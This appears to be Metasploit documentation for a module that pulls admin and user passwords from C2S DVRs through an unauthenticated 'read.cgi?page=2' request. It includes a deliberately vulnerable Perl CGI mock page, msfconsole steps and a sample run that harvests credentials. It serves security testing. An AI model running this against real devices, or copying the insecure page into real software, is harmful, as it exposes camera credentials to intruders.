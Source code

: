 ## Description

C2S DVR allows an unauthenticated user to disclose the username
& password by requesting the javascript page 'read.cgi?page=2'.
This may also work on some cameras including IRDOME-II-C2S, IRBOX-II-C2S.

## Vulnerable Application

This module has been verified against the mock vulnerable page listed below.

### Mock Vulnerable Page

These instructions will create a cgi environment and a vulnerable perl application for exploitation.
Kali rolling (2019.1) was utilized for this tutorial, with apache.

#### Setup

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/html/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/html/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/html/cgi-bin/read.cgi`:

```
#!/usr/bin/perl
use CGI qw(:standard);
$query = new CGI;
print $query->header( -type=> "text/javascript"),
$query->import_names( 'Q' );

my $data = <<'DATA';
var pw_enflag = "1";
var pw_adminpw = "12345";
var pw_retype1 = "12345";
var pw_userpw = "56789";
var pw_retype2 = "56789";
var pw_autolock = "0";
DATA

if ($Q::page == 2) {
  print $data;
}
```

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/c2s_dvr_password_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### Against the Mock page listed above

  ```
    resource (c2s.rb)> use auxiliary/gather/c2s_dvr_password_disclosure
    resource (c2s.rb)> set rhosts 127.0.0.1
    rhosts => 127.0.0.1
    resource (c2s.rb)> set verbose true
    verbose => true
    resource (c2s.rb)> exploit
    [*] Attempting to load data from /cgi-bin/read.cgi?page=2
    [+] Found: admin:12345
    [+] Found: user:56789
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    [*] Starting persistent handler(s)...
    msf5 auxiliary(gather/c2s_dvr_password_disclosure) > creds
    Credentials
    ===========
    
    host       origin     service        public  private  realm  private_type
    ----       ------     -------        ------  -------  -----  ------------
    127.0.0.1  127.0.0.1  80/tcp (http)  admin   12345           Password
    127.0.0.1  127.0.0.1  80/tcp (http)  user    56789           Password
  ```
